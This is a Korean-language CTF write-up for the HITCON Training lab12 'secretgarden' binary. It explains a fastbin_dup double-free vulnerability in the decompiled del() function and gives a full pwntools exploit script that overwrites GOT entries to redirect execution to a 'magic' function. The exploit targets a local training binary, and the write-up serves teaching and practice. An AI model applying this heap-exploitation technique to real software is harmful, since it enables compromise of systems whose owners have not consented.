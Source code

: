```yaml
---
layout: post
title: "[HITCON Training] lab12"
comments : true
category : War Game
---
```


# 문제
***

secretgarden 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
secretgarden: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=22cb8aae67a3f8faed65bd339fa5b1eff20ae57d, not stripped
```

바이너리 코드

__add()__
```c
int add()
{
    ...
    size_t size; // [rbp-20h] 
    ...
    LODWORD(size) = 0;
    ...
    else
    {
        s = malloc(0x28);
        memset(s,0,0x28);
        printf("Length of the name :");
        if ((unsigned int)__isoc99_scanf("%u",&size) == -1 )
            exit(-1);
        buf = malloc((unsigned int)size);
        ...
        printf("The name of flower :")
        read(0,buf,(unsigned int)size);
        *((_QWORD *)s+1) = buf;
        printf("The color of the flower :");
        __isoc99_scanf("%23s", (char *)s+16);
        *(_DWORD *)s = 1;
        for(HIDWORD(size) = 0; HIDWORD(size) < 0x63; ++HIDWORD(size))
        {
            if (!*(&flowerlist + HIDWORD(size)))
            {
                *(&flowerlist + HIDWORD(size)) = s;
                break;
            }
        }
        ++flowercount;
        result = puts("Successful !");
    }
    ...
}
```

__del()__
```c
int del()
{
    ...
    if (flowercount)
    {
       printf("Which flower do you want to remove from the garden");
       __isoc99_scanf("%d",&v2);
       if (v2 <= 0x63 && *(&flowerlist + v2))
       {
           *(_DWORD *)*(&flowerlist + v2) = 0;
           free(*((void **)*(&flowerlist+v2)+1));
           puts("Successful");
       }
    }
    ...
}
```

64비트에서 fastbin은 0x20 - 0xb0 (16 바이트 간격) <br/>

__del()__ 함수에서는 __add()__ 함수에서 flower name을 저장하기 위해 할당한 chunk를 free 한다. 이 때 해당 chunk가 free chunk인지 검증을 하지 않고 free를 하기 때문에 fastbin_dup 취약점이 존재한다. 

## fastbin_dup 취약점
__조건__
- 동일한 크기의 fast chunk의 할당 및 free가 자유로워야 한다.
- free된 fast chunk를 한 번 더 free할 수 있어야 한다. (double free bug)
<br/>

__공격 방법__
- 동일한 크기의 chunk 3개 할당 (chunk 1,2,3)
- chunk 1 free 후 chunk 2 free
- chunk 1 다시 free
- 위의 chunk와 동일한 크기의 chunk 3개 할당
- chunk 4와 chunk 6의 주소가 동일함

## exploit 방법
1. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. (2번 반복) 
2. __del()__ 함수를 통해서 첫 번재와 두 번재로 할당받은 chunk를 free한다.
3. __del()__ 함수를 통해서 첫 번째로 할당받은 chunk를 free한다.
4. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. chunk의 앞 8바이트에 (원하는 영역 -16) 을 쓴다.
5. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. (2번 반복)
6. 5번을 통해서 내가 원하는 영역을 chunk로 할당받을 수 있다. 

__주의할 점__ <br/>
내가 원하는 chunk를 할당받기 위해서는 (원하는 영역 -8)에 해당 chunk의 사이즈가 정확히 setting 되어 있어야 한다. 즉 위에서는 (원하는 영역 -8)에 0x60이 저장되어 있어야 한다. 근데 사이즈 체크를 할 때 하위 4바이트만 가지고 체크하는 것 같다. 이 문제에서 (원하는 영역 -8)에 0x??00000000000060이 저장되어 있는데 할당이 된다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round4/lab12/secretgarden"

def add(length,name,color):
	p.recvuntil("choice : ")
	p.send("1")
	p.recvuntil("name :")
	p.sendline(length)
	p.recvuntil("flower :")
	p.send(name)
	p.recvuntil("flower :")
	p.sendline(color)
	p.recvuntil("!\n")

def del_name(index):
	p.recvuntil("choice : ")
	p.send("3")
	p.recvuntil("garden:")
	p.sendline(index)
	p.recvuntil("Successful\n")

p=process(file_path)

got_sec=0x602002-8
magic=0x400c7b

add("80","3ffr3s","green")
add("80","w1ll_exploit","green")
#add("80","secret_garden","green")

del_name("0")
del_name("1")
del_name("0")

add("80",p64(got_sec),"ha_we")
add("80","plz!!!","ba_we")
add("80","asldkjf","123")

p.recvuntil("choice : ")
p.send("1")
p.recvuntil("name :")
p.sendline("80")
p.recvuntil("flower :")
p.send("AAAAAA"+"\x00"*8+p64(magic)*2)
p.recvuntil("flower :")
p.sendline("finish!!!")

p.interactive()
```

